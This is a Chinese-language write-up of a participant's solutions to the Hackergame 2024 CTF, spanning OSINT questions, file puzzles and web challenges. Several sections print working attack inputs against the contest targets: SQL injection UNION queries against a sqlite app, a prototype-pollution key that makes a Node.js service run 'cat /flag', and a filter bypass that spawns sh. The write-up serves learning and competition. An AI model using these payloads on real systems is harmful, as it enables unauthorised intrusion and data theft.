









## 前言

今年题目难度设置挺不错的。不过由于我知识和能力所限，今年的成绩不如前两年，得到了 4400 分、第 76 名。不过也还好，起码最后上榜了（

## 第1题：签到

点击启动按钮以后，地址栏多出来了 `?pass=false` 参数，改成 `?pass=true` 即可。

## 第2题：喜欢做签到的 CTFer 你们好呀

这个题花了我好一番功夫，是做了几题后回来再看的，主要是一直找不到战队招新主页在哪，没想到在 hackergame 首页的承办单位里就有。我是找到了一个招新安排的 GitHub 仓库：[Nebula-CTFTeam/Recruitment-2024](https://github.com/Nebula-CTFTeam/Recruitment-2024)，然后对着这个 README 看了半天也没有找到门道。最后突然看到这个 organization 页面里有一个链接：<https://nebuu.la/>，点进去才找到题目所在。

首先 F12 看源码搜索 flag，搜到在 https://www.nebuu.la/_next/static/chunks/pages/index-5cb01f7ec808f452.js 这个文件里有一处，附近有一个 `atob` 调用。用 base64 解码这个数据以后得到 flag2。然后看到这个文件里还有一处 `atob`，同样解码以后得到 flag1。

## 第3题：猫咪问答（Hackergame 十周年纪念版）

### 1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？

在 ustc lug 官网里逛一逛，看到 wiki 的[这个“信息安全大赛”页面](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)里有往年的记录，其中[第二届安全竞赛（存档）](https://lug.ustc.edu.cn/wiki/sec/contest.html)点进去就有答案，是 `3A204`。

### 2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？

在从 2019 年到 2023 年每年的 writeup 里面数总共有多少道题，其中 2019 年的题解不在现在这个组织名下，而是在 [ustclug/hackergame2019-writeups](https://github.com/ustclug/hackergame2019-writeups)。发现最接近 25 道题的就是 2019 年，总共 28 道题。然后还是在上面那个 wiki 页面的活动记录里能查到是 `2682` 人注册参见。

### 3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？

在 2018 年的题解里[能找到花絮](https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md)，答案是 `程序员的自我修养`。

### 4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？

搜索 `USENIX Security ustc mail` 搜到了这篇论文：[FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechanism in Email Systems](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)，在这个 pdf 里搜索 `client` 这个词，最终在第 9 页的第 6 段 Imperceptible Email Spoofing Attack 里看到了答案：

> All 20 clients are configured as MUAs for all 16 providers
> via IMAP, resulting in 336 combinations (including 16 web
> interfaces of target providers).

因此答案是 `336`。

### 5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？

最近超级炸裂的大新闻，包括 phoronix、lwn 在内的很多媒体都报道了此事，很多人应该都听说了，即使没听说过应该也有很多途径能搜到。我当天就听说了此事，有 AOSC 社区的开发者发送了一个 patch 想要 revert 掉这个提交：[[PATCH] Revert "MAINTAINERS: Remove some entries due to various compliance requirements."](https://lore.kernel.org/all/20241023080935.2945-2-kexybiscuit@aosc.io/)，其中提到了这个 commit hash：[`6e90b675cf942e50c70e8394dfb5862975c3b3b2`](https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2)。

### 6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？

我先是找了一会儿有没有能调用的 API，不过没找到。然后想起自从 chatgpt 发布以来 hacker news 上就有很多 AI 大模型相关话题，于是[在 hacker news 搜索](https://hn.algolia.com/) `llama 3 tokenizer`，搜到了一个纯前端的实现：[Show HN: LLaMA 3 tokenizer runs in the browser](https://belladoreai.github.io/llama3-tokenizer-js/example-demo/build/)，然后把源码复制粘贴进去就行了。

不过我这里浏览器右键“查看源代码”之后直接全选复制出来开头会多一个换行符，要把它删掉。答案是 `1833`。

## 第4题：打不开的盒

根据往年类似题的经验，只需要找一个支持 STL 格式的查看器或编辑器，然后去除遮挡部分，或者把摄像机放进盒子里面，应该就能看到 flag 了。搜到了[这篇文章](https://all3dp.com/2/free-stl-editor-how-to-edit-stl-files/)，意外地发现其中提到 blender 是支持这种格式的，我此前还没用过 blender，于是便安装来试了一下。

只需要用鼠标中键、滚轮，配合右边的手形图标，就可以看到盒子内部的 flag 了：



也可以按上面文章所说，在左上角进入编辑模式，鼠标框选顶部的节点并删掉它们，然后回到物体模式查看：



## 第5题：每日论文太多了！

没想到还能在论文 pdf 里面藏 flag，绝了.jpg

先在网页打开论文，用 CTRL-F 搜索 `flag`，发现定位到第 6 页的一张图上，尝试复制文字，发现这里写的是 `flag here`，那么 flag 肯定是藏在这里了，应该需要某种解析 pdf 的工具来找。然后我折腾了好半天，从之前在 ripgrep-all 听说的 poppler 里的 `pdftotext`，到之前在 [av766981058 PDF里，到底都是些啥？](https://www.bilibili.com/video/av766981058/)这个视频学到的 mupdf 的 `mutool clean -a -d`，再到直接调用 `PyMuPDF`，也没找到什么线索。

然后在阅读 pymupdf 文档时发现可以导出 svg，于是打算导出成 svg 然后用 svg 编辑器（例如 inkscape）打开看看，发现其实 mutools 就可以转换：

```shell
mutool convert -o foo.svg foo.pdf 6
```

把第 6 页转换成 svg，然后在 inkscape 中打开，点击藏有 flag 的那张图，右键，选择“图层与对象”：



然后发现是一个类似于浏览器审查元素的 UI，尝试隐藏一些对象，发现隐藏其中的 g668 即可去除 flag 的遮挡：



## 第6题：比大小王

前端题，F12 阅读代码发现要比大小的数字存储在 `state.values` 当中，每个输入都会作为 `"<"` 或者 `">"` 存储在一个数组里，并在结束时会把这个数组作为参数传递给 `submit` 函数提交结果。因此写几行代码自动完成这个工作即可：

```js
const inputs = []
for (const pair of state.values) {
    inputs.push(pair[0] > pair[1] ? ">" : "<")
}
console.log(inputs)
submit(inputs)
```

直接粘贴到浏览器 console 中执行即可。不过需要等正式开始计时再运行，不然会“检测到时空穿越”。

## 第7题：旅行照片 4.0

### 问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：X校区Y门，均为一个汉字）

搜索 `科大硅谷` 能搜到其官网：<https://guitek.cn/>，不过官网里没找到太多介绍，尤其是这个网站上下滑动时的延迟加载机制给人一种非常卡顿的感觉，花里胡哨的（）。于是搜索 `科大硅谷 科里科气科创驿站 site:guitek.cn`，第一个搜索结果提到：


> “科大硅谷”蜀山园作为科技创新和产业发展的重要载体，现有科里科气科学岛站、科里科气科大站以及科里科气硅谷大厦站3个科创驿站。

点进去反而找不到是哪一条了，不过不要紧这就够了。然后在百度地图上搜索这几个站，发现最接近的应该是其中的科大站，在地图上标注最接近的是科大东校区的西北门，不知道为什么百度地图标注成西北门。于是填 `东校区西门`，答案正确。

### 问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）

搜索 `科大 ACG 音乐会`，搜到一些B站上的视频，其中有的视频简介里提到了日期，比如 [av1454860192【中国科大2024ACG音乐会单品】【鹿 乐队/口琴】花に亡霊·晴る](https://www.bilibili.com/video/av1454860192/) 的简介提到了：

> 2024年5月19日晚19:00 东区大礼堂

于是答案是 `20240519`。

然后在相关视频推荐里跳转几下也能找到 LEO 酱的官号，在这个号投稿的一些视频简介里也能看到，比如 [av1505128395【中国科大2024ACG音乐会单品】深海少女](https://www.bilibili.com/video/av1505128395/) 的简介里也有。

### 问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）

放大照片仔细看能看到垃圾桶上有“六安XX”四个字（看官方题解应该是“六安园林”），搜索发现是安徽省六安市，在百度地图里找有什么公园，最显眼的一个是 `中央森林公园`，那么就先猜它，然后猜对了。~~这题什么裂开虎克~~

### 问题 4: 这个景观所在的景点的名字是？（三个汉字）

直接 Google lens 秒了，搜到一个携程的页面：<https://gs.ctrip.com/html5/you/sight/yichang313/1975321.html>，那么答案就是 `坛子岭`。

### 问题 6: 左下角的动车组型号是？

题目提示“有辆很标志性的……四编组动车”，于是搜索 `四编组动车`，第一个结果是这个页面：[CRH6F-A动车组](https://www.china-emu.cn/Trains/Model/detail-26012-201-F.html)，封面图就是这个显眼的动车涂装。我又搜了一些别的动车，发现涂装确实可以作为一个明显的特征来识别某列车，所以这应该是怀密线。至于问题 5，我在地图上找这条线上经停的每个站，但全都不符合照片里的环境，最终就放弃了。

## 第8题：不宽的宽字符

官方题解也提到了，题目描述里有一句其实很不准确：

> 随便找了一个文件名测试过无误后，小 A 对自己的方案非常自信，大胆的在各个地方复用这段代码。

实际上这个代码基本不可能“随便找一个文件”就能测试无误的，绝大部分情况下都不能得到正确结果。

本题目是一个 Windows 程序，在 Windows 上的宽字符 `wchar_t` 编码总是小端序的 UTF-16，而窄字符 `char` 的编码则依赖于代码页（code page），比如在常见的简体中文系统上是 cp936，也就是 gbk 编码。因此本题目采用 wine 环境执行应该是为了获得一致的窄字符串编码。起初我还以为 wine 默认的 codepage 使用的窄字符编码是 latin-1，实际尝试了一下发现其实就是 UTF-8。

阅读代码，程序的逻辑其实并不复杂，就是从控制台读取一行窄字符串/字节串，然后把它当作 UTF-8 编码转换为宽字符，也就是转换为 UTF-16 编码，之后再把这个字符串直接当作窄字符串传递给 `open` 函数的文件名。这样的代码肯定是不能正常工作的，它把一串用 UTF-16 编码的缓冲区直接当作 UTF-8 来解释，这就是乱码。

而我们需要找到一个字符串，它用 UTF-16 编码以后再用 UTF-8 解码，最终得到的是 `theflag` 或者 `Z:\theflag` 就可以了。比如：

```python
>>> b"theflag\0".decode("utf-16le")
'桴晥慬g'
>>> b"Z:\\theflag\0a".decode("utf-16le")
'㩚瑜敨汦条愀'
```

C语言的字符串需要以空字符结尾。第二个例子后面补了一个 `a` 是因为 UTF-16 当然需要偶数个字节才能解码。只需要用上面任意一个字符串就能获得 flag。而题目中在宽字符串末尾追加的那个字符串对本题完全没有影响。

在本地复现的时候，要注意 docker 不能加 `-t` 参数，而 `-i` 是需要的。如果加了 `-t` 会无法正常输入中文，不太明白为什么。

## 第9题：PowerfulShell

很有趣的一道题，题目禁掉了大部分字符，而我们的目标就是通过这有限的字符来执行任意 shell 命令。先看看还有哪些字符能用，比如美元符号 `$`、下划线 `_`、加号减号 `+-`、等号 `=`、左右大括号和中括号 `{}[]`、反引号 `` ` ``、波浪符 `~`，数字当中连数字 `0` 也禁了。

于是排列组合尝试一下这些字符能干些什么，我之前知道的有 `$$` 能展开为 shell 的 pid，在本题环境中总是 7；`$_` 能展开为上一条执行的命令，在本题中总是展开为 `input`。接下来经过尝试，发现了一些我以前不知道的，比如 `$-` 会展开为可用 `set` 命令来设置的选项，在题目中总是展开为 `hB`。另外本题环境中的 `~` 会展开为 `/players`。

然后我之前知道 shell 的 `${}` 里面支持一些有趣的语法，比如 [posix shell 就支持](https://pubs.opengroup.org/onlinepubs/9799919799/utilities/V3_chap02.html#tag_19_06_02)的 `${foo:-bar}` 在变量为空的时候选择默认值之类的。经过一番尝试也没鼓捣出什么，就是发现 `${}` 语法不能嵌套。搜索 bash 文档，搜到了一个字符串切片语法：[`${parameter:offset:length}`](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html#:~:text=%24%7Bparameter%3Aoffset%3Alength%7D)，那就好了，如果可以切出 s 和 h 两个字母那么就能调用 `sh` 了。看了一圈，使用 `${-: -2:-1}` 可以获得 h，但是从哪里获得 s 呢？波浪符展开的最后一个字母是 s，但是直接 `${~: -1}` 是不行的，在这里没法展开，而又没有什么字符可以作为变量名来赋值，`$1` 和 `$_` 这种都是特殊变量没法赋值。

又过了一天我才想起来，单下划线不行，可以用双下划线呀。试了一下结果还真行。于是最终解法是：

```shell
__=~
${__: -1}${-: -2:-1}
cat /flag
```

## 第10题：Node.js is Web Scale

这道题我们可以给 current 对象设置键和值，而我们需要写入 cmds 对象来执行命令获取 flag，因此猜测应该有某种方法来逃逸。我知道 python 当中有一个有名的 `obj.__init__.__globals__`，js 也许也有类似的东西。

搜索 `js object attribute dangerous` 搜到了这一篇：[What keys are unsafe to assign on a JavaScript object (e.g. '\_\_proto\_\_')?](https://stackoverflow.com/questions/61941494/what-keys-are-unsafe-to-assign-on-a-javascript-object-e-g-proto)，然后查阅 mdn 文档得知，往 object 的原型上写入的属性会存在于所有 object 之上，那么就简单了。只需要把键 `__proto__.my_backdoor` 的值设为 `cat /flag`，然后访问 `/execute?cmd=my_backdoor` 即可拿到 flag。

## 第11题：PaoluGPT

### 窥视未知

阅读代码，发现有一个明显的 sql 注入，那么就注入一下看看能查询到些什么。因为能注入的语句用的是 `fetchone` 只返回查到的第一条结果，所以要看后面的就得加 `LIMIT 1 OFFSET n` 了。比如先看看 sqlite 数据库的 `sqlite_master` 表，看这个数据库里面有没有隐藏的表。在请求 URL 的 `/view?conversation_id=` 后面加上要注入的语句：

```
foobar' UNION SELECT type, name FROM sqlite_master LIMIT 1 OFFSET 0; --
foobar' UNION SELECT name, sql FROM sqlite_master LIMIT 1 OFFSET 0; --
```

结果看到只有一个 messages 表：

```sql
CREATE TABLE messages (id text primary key, title text, contents text, shown boolean)
```

不过这里有一个 `shown` 字段，题目代码里也能看到列出所有结果时限制了 `where shown = true`，那么就看看 `shown = false` 是什么结果：

```
foobar' or shown = false --
```

第一眼没看出来有什么，于是再看看还有没有别的 `shown = false` 的条目，结果没有了，就这一条。然后才发现其实 flag 就在这个页面上了，只不过中间有一大堆空行，拉滚动条到最下面或者搜 flag 就行了。但是 F12 查看元素是不行的，因为太长了所以会折叠成省略号。

提交 flag 后，发现这个竟然是 flag2（

### 千里挑一

查询一下 messages 表可见总共就是有 1000 条：

```
foobar' union select 1, sum(1) from messages --
```

因此猜测 flag 应该是在某一个条目中，因此写一个脚本去遍历一遍搜索 flag。

[点此查看代码](./src/q11_PaoluGPT/flag1.py)


## 第12题：强大的正则表达式

### 12 - Easy

因为 `10**4` 也就是 10000 可以被 16 整除，所以只需要看最后 4 位就行了，可以匹配后 4 位从 `0000` 到 `9984` 的每一种情况。其实还有可能出现数字小于 10000 的情况，不过因为题目代码生成随机数的范围是 `random.randint(0, 2**64)`，所以这几乎不可能遇到，可以忽略。

```python
print("(0|1|2|3|4|5|6|7|8|9)*(" + "|".join(f"{i:04d}" for i in range(10000) if i % 16 == 0) + ")")
```

## 第13题：惜字如金 3.0

### 题目 A

这个题很简单，手动补全就行了。我提及这个题主要是想说一下我用的工具，实际上就是 vim，但是开了一个配置，[`set list`](https://yianwillis.github.io/vimcdoc/doc/options.html#'list') 来启用空白字符的高亮，我当时启用这个就是为了高亮行尾空格。不过默认情况下制表符会变成 `\t`，失去对齐了，所以还需要配置一下 `listchars`，我的配置如下：

```vim
set list
set listchars=tab:→\ ,trail:\ ,extends:>,precedes:<,nbsp:⎵
```

这里的语法详见 [vim 文档](https://yianwillis.github.io/vimcdoc/doc/options.html#'listchars')。

效果如下：



## 第14题：优雅的不等式

### 14 - Easy

要获得这个 flag 只需要构造 `pi - 2` 和 `pi - 8/3` 的情况，题目已经给出了 `pi - 2` 的例子 `4 * ((1-x**2)**(1/2) - (1-x))`，它实际上相当于一个四分之一圆和一个一次函数：


在中学就学过一个平凡的包含 π 的定积分，就是在单位圆上从 0 到 1/2 的积分，它的值是 `pi/12 + 3**(1/2)/8`，然后构造一个过 `(1/2, √3/2)` 点的一次函数，二者相减就可以了。



因为题目是在 0 到 1 区间上的积分，接着在 x 轴上缩放 2 倍，即可得到一个带有 `pi/6` 的表达式，再乘 6 即可。最终的答案是：

```
6*((1-(x/2)**2)**(1/2) - 8/9 + (8/9-3**(1/2)/2)*x)
```

## 第15题：无法获得的秘密

很有趣的一道题，看各位参赛者各显神通太好玩了（

本题只能通过键盘鼠标输入，那么很容易想到模拟键盘输入 base64 来传输文件；只能通过画面获得输出，我第一想到的是之前听说过一个比 QR code 效率更高的通过彩色视频传输数据的编码方案：[cimbar](https://github.com/sz3/libcimbar)，称能达到约 106 KB/s 的速率。不过看了一眼 README，它依赖 opencv，那就算了，还是 qrcode 吧。

先看看题目环境，F12 看到这个 noVNC 元素实际上是个 iframe，于是我干脆直接访问这个 iframe 的地址 http://202.38.93.141:12010/static/noVNC/vnc.html 来操作。我以前还没用过 noVNC，先熟悉了一下操作，看到左边的设置里有个日志等级，那就把它开到 debug 级别。操作过程中能看到它打开了一个 websocket 连接，然后通过它来发送和接收数据，且在 F12 的 network 一栏能看到许多 jpg 图片，可见画面是通过 jpeg 编码发送来的。题目环境是个 xfce 桌面，有终端模拟器，可以用来执行命令以及看输出。按下键盘的时候 console 会有 keycode 和 scancode 的日志。

